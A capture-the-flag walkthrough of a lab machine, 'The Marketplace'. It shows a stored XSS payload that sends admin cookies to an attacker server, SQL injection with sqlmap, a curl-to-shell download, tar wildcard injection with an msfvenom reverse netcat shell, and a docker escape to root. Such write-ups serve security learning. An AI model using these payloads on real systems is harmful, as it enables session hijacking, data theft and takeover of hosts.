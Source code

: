# The Marketplace

Lets start with some recon `nmap -A -sS -T4 <IP>`

Results:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-08 13:06 EST
Nmap scan report for 10.10.215.43
Host is up (0.033s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
|_http-server-header: nginx/1.19.2
32768/tcp open  http    Node.js (Express middleware)
|_http-title: The Marketplace
| http-robots.txt: 1 disallowed entry 
|_/admin
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 2.6.32 (86%), Linux 2.6.32 - 3.1 (86%), Linux 2.6.39 - 3.2 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   32.96 ms 10.11.0.1
2   33.09 ms 10.10.215.43

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.45 seconds
```

So as we can see we have a simple structure of an ssh login on port 22 and an http webserver on port 80 that is mirrored for nodejs on port 32768. So lets head over to the website! While looking over the website I will run gobuster in the back to find hidden directories.

Okay so we can signup lets do that first thing that catches my eye is the 'new listing' feature we can probably upload a revshell there. (Also gobuster returned nothing intresting.) After trying to upload an image I see they have blocked that by putting a No image placeholder:

![Screen1](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-08%20at%207.01.31%20PM.png)

So lets just try an XSS attack! With a simple `<script>alert('Hello!')</script>` in the description it works! we get a succesful alert. So lets take it to the next level and check if anyone (like an admin) is checking our post!

Lets start with making a simple server which can accept post request and log the data to our console! I will be making a node.js server for this because its what I prefer but there are many ways to do it. 

Start with a simple `npm init` then we can make a `server.js` file and add some simple code:

```js
const express = require('express')
const app = express()
const port = 3000
var bodyParser = require('body-parser')

// parse application/x-www-form-urlencoded
app.use(bodyParser.urlencoded({ extended: false }))

// parse application/json
app.use(bodyParser.json())

app.use(function(req, res, next) {
  res.header("Access-Control-Allow-Origin", "*");
  res.header("Access-Control-Allow-Headers", "Origin, X-Requested-With, Content-Type, Accept");
  next();
});

app.post('/cookies', (req, res) => {
  console.log(req.body);
})

app.listen(port, () => {
  console.log(`Malicious app listening on port ${port}`)
})
```

then just run `npm i express body-parser` and were good to go!

![Screen2](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-08%20at%205.49.37%20PM.png)

Now back to the website if we change our script tu send post data to `YOURIP/cookies` we should get it logged directly! Easy right? We can use the following code as a test in our console to make sure we get the data.

```js
var xhr = new XMLHttpRequest();
xhr.open("POST", 'http://<YOURIP>:<PORT>/cookies', true);
xhr.setRequestHeader('Content-Type', 'application/json');
xhr.send(JSON.stringify({
    value: 'value'
}));
```

Which should in result give us a simple `{ value: 'value' }` logged to our console! Well congrats we got the server working and ready to steal data! Now lets iinject this into a ticket! 

So as we had before `<script>alert('XSS')</script>` And just replace whats inside the script with what we just tested!

```html
</textarea>
	<script>
		var xhr = new XMLHttpRequest();
		xhr.open("POST", 'http://<YOURIP>:<PORT>/cookies', true);
		xhr.setRequestHeader('Content-Type', 'application/json');
		xhr.send(JSON.stringify({
			value: 'value'
		}));
	</script>
```

It works! Perfect now all we have to do is find important data like cookies and send them over by changing the body to:
`cookies: document.cookie`

Also make sure to report the post to the admins so one actually goes check it out!
After doing that we get:
```json
{
  cookies: 'token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2NDY3NjMzNTF9.tG4DQ-jnozS-E3h69kXPOSlwPwAbqeskQZq0DkfseJo'
}
```

Cookies! Yay! We can now use firefox dev tools or just a chrome cookie editor extension and change our token to the admins!

![Screen3](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-08%20at%207.23.09%20PM.png)

We now have access to the admins panel + our first flag GG! Lets keep going!
If we click on a user we can see this kind of url: `http://10.10.215.43/admin?user=4`
Which I think indicates it runs an SQL query based on users id so we can SQLi that. Lets try it.

Lets Imagine the query goes as such: 
`SELECT * FROM users WHERE id=(user input)`

So what if we tried inserting in the url the following SQL query:
`6 UNION SELECT @@version,1,1,1;---`
 We get a positive result! 
 
![Screen4](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-08%20at%2010.26.04%20PM.png)
 
So now lets run sqlmap on it:
`sqlmap http://<IP>/admin?user=3 --cookie='token=<TOKEN>' --technique=U --delay=2 -dump`

This will give us some juicy info

![Screen5](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-08%20at%2011.08.44%20PM.png)
 
Here we have the users table with some hashed passwords. We also get an intresting message:
`Hello! An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password. Your new password is: @b_ENXkGYUCAv3zJ`

and it was to `user_id 3` which means thats jake! Lets try logging into
`ssh jake@ip`

![Screen5](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-08%20at%2011.12.54%20PM.png)

Sick! Were in baby!! We can now just `cat user.txt` and get the second flag!
Time for the best part Priv Esc. I will run a simple [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) 

First we can host a server on our Attack Machine: 
`python -m SimpleHTTPServer 80`
Then on our Victim Machine:
`curl <YOUR_IP>/linpeas.sh | sh`

After running linPEAS we have some intresting info:

```
(michael) NOPASSWD: /opt/backups/backup.sh
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
```

Contents of `/opt/backups/backup.sh`:
```bash
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

So we see that we can run the file wthout a password which is good and the file is using * a wildcard character which we can exploit! First in our Attacker Machine we need to create a payload using: `msfvenom -p cmd/unix/reverse_netcat lhost=<YOUR_IP> lport=9999 R`
After we get the payload back we can now inject it into a file on the victim machine using these following commands:
```bash
echo '<YOUR_PAYLOAD>' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

now if we open a `nc -nvlp 9999` on our machine and try to run: `sudo -u michael /opt/backups/backup.sh` we get an error about backup.tar permissions for michael so lets just `mv backup.tar bk.tar` and now if we run it again we get a reverse shell for michael!

![Screen6](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-09%20at%2011.27.51%20AM.png)

Lets just run a quick `python -c 'import pty; pty.spawn("/bin/sh")'` to get a better shell. So as we saw earlier in linPEAS michael is  docker user so we can exploit that with a quick [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) search! If we just scroll down to ==sudo== we can find the following payload:
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Which if we just run, and then check who we are with `whoami`, we are now root!
GG! Was a fun one some SQLi, XSS, Wildcard PrivEsc and Docker. See ya next time!

